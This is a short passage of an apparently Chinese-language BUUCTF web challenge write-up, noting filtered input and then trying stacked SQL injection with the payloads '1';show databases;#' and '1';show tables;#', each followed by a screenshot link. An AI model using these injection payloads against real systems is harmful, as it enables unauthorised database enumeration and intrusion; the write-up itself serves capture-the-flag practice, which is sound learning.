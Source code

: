 是过滤掉的东西。

尝试使用堆叠注入

```sql
1';show databases;#
```

<img src="BUUCTF——Web.assets/image-20200909112547492.png" alt="image-20200909112547492" style="zoom: 67%;" />

```sql
1';show tables;#
```

![image-20200909113328381](BUUCTF——Web.assets/image-20200909113328381.png)
